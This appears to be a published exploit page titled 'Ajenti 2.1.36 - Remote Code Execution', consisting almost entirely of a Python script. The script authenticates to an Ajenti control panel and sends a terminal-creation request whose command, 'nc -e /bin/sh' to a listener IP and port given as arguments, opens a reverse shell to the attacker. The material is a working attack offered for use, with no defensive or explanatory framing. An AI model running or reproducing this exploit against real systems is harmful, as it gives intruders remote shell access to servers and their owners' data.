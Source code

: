 ```yaml
---
layout: post
title: Ajenti 2.1.36 - Remote Code Execution
date: 2024-05-25
category: exploit
---
```


#!/usr/bin/python3

import requests
import sys
import warnings
from bs4 import BeautifulSoup
import json

warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) < 6:
    print("Usage: ./exploit.py http(s)://url username password listenerIP listenerPort")
    exit()

url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]
ip = sys.argv[4]
port = sys.argv[5]

req = requests.session()
login_creds = {
    "username":username,
    "password":password,
    "mode":"normal"}
      


print("[+] Sendin login request...")
login = req.post(url+"/api/core/auth", json = login_creds)


if username in login.text:

    page = url + "/api/terminal/create"

    payload = {

            'command':'nc -e /bin/sh ' + ip + ' ' + port ,
            'autoclose':True


          }
    payload = json.dumps(payload)
    print("[+] Sending payload...")
    
    send_payload = req.post(page, payload)
    
    print("[+] Check your listener !...")

else:
    print("[-] Wrong credentials or may the system patched.")
    exit()
